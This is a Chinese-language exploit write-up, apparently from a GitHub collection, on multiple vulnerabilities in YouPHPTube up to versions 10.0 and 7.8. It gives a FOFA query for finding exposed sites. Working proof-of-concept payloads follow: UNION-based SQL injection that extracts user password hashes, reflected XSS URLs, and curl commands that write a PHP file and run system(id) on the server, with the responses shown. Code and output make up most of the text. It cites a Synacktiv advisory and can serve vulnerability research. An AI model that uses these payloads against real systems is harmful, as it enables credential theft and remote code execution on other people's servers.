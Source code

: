 # YouPHPTube <= 10.0 and 7.8 多个漏洞 SQL注入、XSS、文件写入


YouPHPTube是一个开源的视频共享网站应用。使用YouPHPTube，用户可以创建自己的视频共享网站，YouPHPTube 将帮助用户导入和编码来自Youtube，Vimeo 等其他网站的视频，用户可以直接在自己的网站上进行分享。

除了XSS  其它都需要进行身份验证...文件写入需要管理员权限..

**FOFA：**

```
app="AVideo-YouPHPTube"
```

**1.sql注入：**

漏洞代码：

```sql
$sql .= " AND (c.clean_name = '{$_GET['catName']}' OR c.parentId IN (SELECT cs.id from
categories cs where cs.clean_name = '{$_GET['catName']}' ))";
```

**PoC：**

```
GET /feed/?catName=%5c HTTP/1.1
[...]
```

10.0版本：

```bash
GET /feed/?catName=)
+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
,30,31,
(select+password+from+users+limit+0,1),33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,5
0,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78%23%5c
3/6
HTTP/1.1
[...]
HTTP/1.1 200 OK
[…]
<title>756b4b2b734f5568096daf16516975d7</title>
[…]
```

7.8版本：

```sql
GET /youphptube/YouPHPTube-master/feed/?catName=)
+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
,30,
(select+password+from+users+limit+0,1),32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,4
9,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73%23%5c HTTP/1.1
[…]
HTTP/1.1 200 OK
[…]
<title>756b4b2b734f5568096daf16516975d7</title>
[…]
```

**2.XSS跨站脚本**

漏洞代码：

```
print isset($_GET['redirectUri']) ? $_GET['redirectUri'] : "";
```

**PoC：**

```
http://<target>/signUp?redirectUri=%22%3E%3Cscript%3Ealert(111)%3C%2fscript%3E
```

```
http://<target>/plugin/Live/?u=%3Cscript%3Ealert(66)%3C%2fscript%3E
```


**3.文件写入导致的代码执行：**

漏洞代码：

```php
$file = $dir.strtolower($_POST['flag']).".php";
$myfile = fopen($file, "w") or die("Unable to open file!");
if (!$myfile) {
 $obj->status = 0;
 $obj->error = __("Unable to open file!");
 die(json_encode($obj));
}
$txt = "<?php\nglobal \$t;\n";
fwrite($myfile, $txt);
fwrite($myfile, $_POST['code']);
fclose($myfile);
echo json_encode($obj);
```

**PoC：**

```bash
$ curl -kis 'http://<target>/locale/save.php' -H 'Cookie:09b9117edc20bc1c555739155c0eb1bd=9jpn05830lp2f7s9atqbs9kbc1;' --data 'flag=testfile2&code=system(id);'

$ curl -kis 'http://<target>/locale/testfile2.php' -H 'Cookie:09b9117edc20bc1c555739155c0eb1bd=9jpn05830lp2f7s9atqbs9kbc1;'

HTTP/1.1 200 OK
Date: Sat, 21 Nov 2020 05:20:55 GMT
Server: Apache
X-Powered-By: PHP/7.4.11
Cache-Control: max-age=1, private, must-revalidate
Expires: Sat, 21 Nov 2020 05:20:56 GMT
Content-Length: 49
Content-Type: text/html; charset=UTF-8

uid=81(apache) gid=81(apache) groupes=81(apache)
```

ref:

* https://www.synacktiv.com/sites/default/files/2021-01/YouPHPTube_Multiple_Vulnerabilities.pdf
* https://forum.ywhack.com/thread-115063-1-1.html